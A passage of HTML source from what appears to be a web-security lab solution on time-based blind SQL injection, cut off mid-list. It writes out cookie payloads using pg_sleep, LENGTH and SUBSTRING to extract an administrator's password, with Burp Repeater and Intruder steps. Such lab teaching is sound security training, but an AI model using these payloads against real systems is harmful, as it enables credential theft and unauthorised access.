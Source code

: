                         <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)&gt;1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--</code>
                        <p>
                            This condition should be true, confirming that the password is greater than 1 character in length.
                        </p>
                    </li>
                    <li>
                        <p>
                            Send a series of follow-up values to test different password lengths. Send:
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)&gt;2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--</code>
                        <p>
                            Then send:
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)&gt;3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--</code>
                        <p>
                            And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.
                        </p>
                    </li>
                    <li>
                        After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
                    </li>
                    <li>
                        In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
                    </li>
                    <li>
                        <p>
                            In the Positions tab, change the value of the cookie to:
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--</code>
                        <p>
                            This uses the <code>SUBSTRING()</code> function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
                        </p>
                    </li>
                    <li>
                        <p>
                            Place payload position markers around the <code>a</code> character in the cookie value. To do this, select just the <code>a</code>, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--</code>
                    </li>
                    <li>
                        To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
                    </li>
                    <li>